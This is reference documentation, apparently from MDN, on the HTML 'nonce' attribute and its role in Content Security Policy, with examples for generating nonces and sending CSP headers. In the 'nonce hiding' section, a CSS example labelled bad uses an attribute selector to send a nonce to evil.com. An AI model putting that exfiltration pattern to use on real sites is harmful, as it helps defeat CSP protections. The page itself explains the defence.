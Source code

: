 ```yaml
---
title: nonce global attribute
short-title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
page-type: html-attribute
browser-compat: html.global_attributes.nonce
---
```


{{HTMLSidebar("Global_attributes")}}

The **`nonce`** [global attribute](/en-US/docs/Web/HTML/Reference/Global_attributes)
is a content attribute defining a cryptographic nonce ("number used once") which can be used by
[Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP) to determine whether or not a given fetch will
be allowed to proceed for a given element.

## Description

The `nonce` attribute is useful to allowlist specific elements, such as a particular inline script or style elements.
It can help you to avoid using the [CSP](/en-US/docs/Web/HTTP/Guides/CSP) `unsafe-inline` directive, which would allowlist _all_ inline scripts or styles.

> [!NOTE]
> Only use `nonce` for cases where you have no way around using unsafe inline script
> or style contents. If you don't need `nonce`, don't use it. If your script is static, you could also use a CSP hash instead.
> (See usage notes on [unsafe inline script](/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Always try to take full advantage of [CSP](/en-US/docs/Web/HTTP/Guides/CSP) protections and avoid nonces or unsafe inline scripts whenever possible.

### Using nonce to allowlist a \<script> element

There are a few steps involved to allowlist an inline script using the nonce mechanism:

#### Generating values

From your web server, generate a random base64-encoded string of at least 128 bits of data from a cryptographically secure
random number generator. Nonces should be generated differently each time the page loads (nonce only once!). For example, in nodejs:

```js
import crypto from "node:crypto";

crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Allowlisting inline script

The nonce generated on your backend code should now be used for the inline script that you'd like to allowlist:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Sending a nonce with a CSP header

Finally, you'll need to send the nonce value in a
[`Content-Security-Policy`](/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy) header
(prepend `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Accessing nonces and nonce hiding

For security reasons, the `nonce` content attribute is hidden (an empty string will be returned).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

The [`nonce`](/en-US/docs/Web/API/HTMLElement/nonce) property is the only way to access nonces:

```js example-good
script.nonce; // returns nonce value
```

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data
from content attributes like this:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`HTMLElement.nonce`](/en-US/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
